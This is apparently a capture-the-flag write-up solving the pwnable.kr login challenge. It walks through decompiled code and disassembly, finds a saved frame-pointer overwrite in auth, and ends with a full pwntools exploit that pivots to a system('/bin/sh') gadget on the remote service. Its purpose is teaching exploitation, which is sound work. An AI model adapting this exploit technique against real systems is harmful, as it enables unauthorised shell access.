 When exploiting a binary I always like to first play around with it
to get a general idea of what I am dealing with.
(Whether you run it on the server or in a VM it doesn't matter
just please don't run random binaries outside an isolated environment):

```
❯ nc pwnable.kr 9003
Authenticate : secret_key
hash : f88e77140e9e6d52cb34c1c1f6a61869
```

Ok, so, at first glance we can surmise that the program hashes a password and outputs the hash on the screen.
Now let's start with the actual analysis:

```
❯ file slogin
slogin: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

We are working with a 32-bit **statically linked** binary.
Let's decompile the main function (using Ghidra, IDA,or whatever software you prefer really)
and see what it does:

```c
int main(void)

{
  void *decoded_str;
  char buf [30];
  uint decoded_len;

  memset(buf,0,0x1e);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,1,0);
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,buf);
  memset(&input,0,0xc);
  decoded_str = (void *)0x0;
  decoded_len = Base64Decode(buf,&decoded_str);
  if (decoded_len < 0xd) {
    memcpy(&input,decoded_str,decoded_len);
    if (auth(decoded_len) == 1) {
      correct();
    }
  }
  else {
    puts("Wrong Length");
  }
  return 0;
}
```
I renamed the variables to make it look clearer.
Since the `scanf` function deals with input it immediately struck me as a potential target.
Unfortunately dereferencing the address of the format string (`0x080da6b5`) in GDB yields: `"%30s"`.
This means that `scanf` will take up to 30 bytes of input which is the exact size of the buffer we pass it,
thus we can not take advantage of a buffer overflow here.

Getting back to the rest of the code we notice the `Base64Decode` function that was also present in the md5 calculator challenge.
It signals that our input is assumed to be encoded in Base64. Additionally, to get pass the `if` statement
we would also need the decoded input to be at most 12 bytes in length.
Now let's look at `auth`.
```c
bool auth(size_t len)

{
  char buf1 [8];
  char *hash;
  char buf2 [8];

  memcpy(buf2,&input,len);
  hash = (char *)calc_md5(buf1,0xc);
  printf("hash : %s\n",hash);
  return strcmp("f87cd601aa7fedca99018a8be88eda34",hash) == 0;
}
```

We copy the decoded input into `buf2` (red flag: the decoded input can be up to 12 bytes long).
Then we hash the uninitialized `buf1` passing an invalid length argument?

When I first observed this I decided to run a little experiment to see whether the program was really
not hashing the user input:

```
❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 7968e02c61740a950a91500784fc81a1


❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 92308a678245d143ee332311edaeb300
```

As you can see this indeed is the case since it prints different hashes for the same input.
To understand and exploit the apparent bug in the `auth` function we should look at the disassembly:

```
❯ objdump --disassemble=auth -Mintel slogin

0804929c <auth>:
 804929c:	55                   	push   ebp
 804929d:	89 e5                	mov    ebp,esp
 804929f:	83 ec 28             	sub    esp,0x28
 80492a2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80492a5:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80492a9:	c7 44 24 04 40 eb 11 	mov    DWORD PTR [esp+0x4],0x811eb40
 80492b0:	08
 80492b1:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492b4:	83 c0 0c             	add    eax,0xc
 80492b7:	89 04 24             	mov    DWORD PTR [esp],eax
 80492ba:	e8 a1 03 02 00       	call   8069660 <memcpy>
 80492bf:	c7 44 24 04 0c 00 00 	mov    DWORD PTR [esp+0x4],0xc
 80492c6:	00
 80492c7:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492ca:	89 04 24             	mov    DWORD PTR [esp],eax
 80492cd:	e8 b6 fe ff ff       	call   8049188 <calc_md5>
 80492d2:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80492d5:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492d8:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492dc:	c7 04 24 77 a6 0d 08 	mov    DWORD PTR [esp],0x80da677
 80492e3:	e8 48 23 01 00       	call   805b630 <_IO_printf>
 80492e8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492eb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492ef:	c7 04 24 84 a6 0d 08 	mov    DWORD PTR [esp],0x80da684
 80492f6:	e8 f5 ef ff ff       	call   80482f0 <.plt+0xf0>
 80492fb:	85 c0                	test   eax,eax
 80492fd:	75 07                	jne    8049306 <auth+0x6a>
 80492ff:	b8 01 00 00 00       	mov    eax,0x1
 8049304:	eb 05                	jmp    804930b <auth+0x6f>
 8049306:	b8 00 00 00 00       	mov    eax,0x0
 804930b:	c9                   	leave
 804930c:	c3                   	ret
```
Observe that the pointer we pass to `memcpy` is actually `$ebp-0x14+0xc = $ebp-8`.
Given that the decoded input can be up to 12 bytes in length this means
we can overwrite the address holding the old base pointer.
Considering that the instruction pointer is fetched from the dereferenced `$ebp + 4`
we can find a target for `$eip` and overwrite the old base pointer to point four bytes before the address of that target like so:

```
decoded_input:
b'AAAA' + addr_of(malicious_code) + addr_of(decoded_input)
```

This assures that after we pop into `$ebp` twice(via the `ret` instruction) execution will continue
in `malicious_code`. What's left to figure out is what the malicious code will be?
We could directly jump to `system` but this would be tricky since `system` requires a string pointer as an argument
(which means we have to assure that a pointer to such string is stored at `$esp+4` when we return to `system`,
in other words this is highly unpleasant business).
Instead we notice that in the `correct` function we already have a gadget which sets up `'/bin/sh'` as an argument
and calls system. We can simply jump to that gadget.

```c
void correct(void)

{
  if (input == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```
```
0804925f <correct>:
 804925f:	55                   	push   ebp
 8049260:	89 e5                	mov    ebp,esp
 8049262:	83 ec 28             	sub    esp,0x28
 8049265:	c7 45 f4 40 eb 11 08 	mov    DWORD PTR [ebp-0xc],0x811eb40
 804926c:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 804926f:	8b 00                	mov    eax,DWORD PTR [eax]
 8049271:	3d ef be ad de       	cmp    eax,0xdeadbeef
 8049276:	75 18                	jne    8049290 <correct+0x31>
 8049278:	c7 04 24 51 a6 0d 08 	mov    DWORD PTR [esp],0x80da651
 804927f:	e8 4c 30 01 00       	call   805c2d0 <_IO_puts>
 8049284:	c7 04 24 6f a6 0d 08 	mov    DWORD PTR [esp],0x80da66f  <--- here is the gadget.
 804928b:	e8 20 20 01 00       	call   805b2b0 <__libc_system>
 8049290:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 8049297:	e8 04 14 01 00       	call   805a6a0 <exit>
```

This leaves us with the final exploit:

```python
from pwn import *

elf = ELF('./slogin')
decoded_input = elf.symbols['input']
system_gadget = 0x8049284

payload = b64e(b'junk' + p32(system_gadget) + p32(decoded_input))
proc = remote('pwnable.kr', port=9003)
proc.sendline(payload)
proc.interactive()
proc.close()
```
